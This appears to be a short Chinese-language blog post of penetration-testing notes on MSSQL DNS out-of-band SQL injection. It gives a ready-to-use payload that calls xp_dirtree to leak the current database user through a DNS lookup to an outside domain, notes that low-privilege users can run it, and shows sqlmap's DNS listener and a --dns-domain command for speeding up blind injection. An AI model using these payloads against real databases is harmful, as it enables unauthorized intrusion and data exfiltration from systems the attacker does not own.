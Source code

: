 ```yaml
---
title:  "DNS Log 杂记"
date:   2018-09-19 13:05:14 +0100
author: wolvez
tags: dnslog sqlmap
---
```


1. public 能执行 xp_dirtree 函数 (可以用来dns 回显注入)

2. public 权限下不能列任何目录(网上很多文章说public能列)
<!--more-->

3. mssql dns 回显注入： 网上教程说需要两个域名，实际一个域名就可以:) 配置域名： 


![domain](https://wolvez.oss-cn-hangzhou.aliyuncs.com/images%2FDnslog.PNG)


条件：支持多语句执行  
```sql
DECLARE @host varchar(1024);
  SELECT @host=(SELECT CURRENT_USER
+'bind.google.com');
  EXEC('master..xp_dirtree
"\\'+@host+'\foobar$"');
```

远程外网服务器监听： `./sqlmap/lib/request/dns.py` 即可有回显结果

 

4. sqlmap 可直接利用dns 回显注入来突破鸡肋的延时注入

```sqlmap --dns-domain bind.google.com(你的域名)```
